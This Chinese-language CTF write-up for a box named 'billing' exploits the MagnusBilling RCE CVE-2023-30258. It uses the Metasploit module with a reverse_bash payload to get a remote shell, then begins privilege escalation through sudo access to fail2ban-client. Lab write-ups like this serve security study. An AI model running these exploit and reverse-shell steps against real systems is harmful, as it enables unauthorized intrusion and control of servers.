 ```yaml
---
icon: pen-to-square
date: 2025-03-26
tags: 
title: billing
category:
  - 项目
---
```

## 1. 前言
本题运用了简单的[CVE-2023-30258](https://eldstal.se/advisories/230327-magnusbilling.html)漏洞，这是一个简单的远程命令执行漏洞
## 2. 复现步骤
### 反弹shell
这个漏洞已经在msf中收录了
`msfconsole`

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110410.png)

```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110506.png)

```bash
show targets
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326110536.png)

```bash
set PAYLOAD cmd/unix/reverse_bash
```
设置payload，然后设置Rhost Rport Lhost以及Lport
设置好监听接口以及payload之后，msf会自动接收反向shell
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112352.png)

### 提权
查看当前进程
```
ps -aux | grep fail
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326112734.png)

**fail2ban-client** 是一个命令行界面，它允许我们与 **fail2ban-server** 进行交互、配置和控制。简单说明一下，**fail2ban** 是一种安全工具，可以监控日志文件中的可疑活动（例如重复失败的登录尝试），并通过更新防火墙规则来禁止违规的 IP 地址。
使用 fail2ban-client，您可以与 Fail2ban 服务交互以执行作，例如启动或停止 jail、查看或更新设置以及检查服务器上不同 jail 的状态。从本质上讲，它可以帮助您控制服务器如何响应可疑活动以确保其安全。
```
sudo /usr/bin/fail2ban-client status
```
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250326113233.png)
有 8 个活动的 jail
`Jails`基本上是定义要监控的日志、要查找的模式以及匹配模式时要采取的作的配置。
